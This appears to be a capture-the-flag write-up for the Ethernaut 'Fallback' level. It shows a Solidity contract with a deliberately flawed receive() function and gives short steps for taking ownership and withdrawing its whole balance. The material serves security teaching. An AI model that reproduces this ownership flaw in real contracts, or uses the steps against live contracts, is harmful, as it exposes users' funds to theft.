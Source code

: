 ### Type - CTF

*** 


Look carefully at the contract's code below.

You will beat this level if

* you claim ownership of the contract
* you reduce its balance to 0

Things that might help

* How to send ether when interacting with an ABI
* How to send ether outside of the ABI
* Converting to and from wei/ether units (see help() command)
* Fallback methods

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```


### Solution

* Get New Instance

Taking a glimpse at the code above we can easily exploit a poorly implemented fallback function to gain control of someone else’s smart contract

* Sending  transaction value from players account satisfying the condition `require(msg.value > 0 && contributions[msg.sender] > 0);` will give the  ownership to the player
  * `contract.sendTransaction({from: player,value: toWei(...)})`
*  await contract.owner() - > checking the ownership 
* contract.withdraw() - > withdraws all the funds in the  contract

Explanation 

*  [0xSage](https://medium.com/@0xsage) - [Ethernaut Lvl 1 Walkthrough: how to abuse the Fallback function](https://medium.com/hackernoon/ethernaut-lvl-1-walkthrough-how-to-abuse-the-fallback-function-118057b68b56)
*  [Smart Contract Programmer](https://www.youtube.com/@smartcontractprogrammer) - [Ethernaut 01 - Fallback](https://www.youtube.com/watch?v=TQKj2xvsGec)


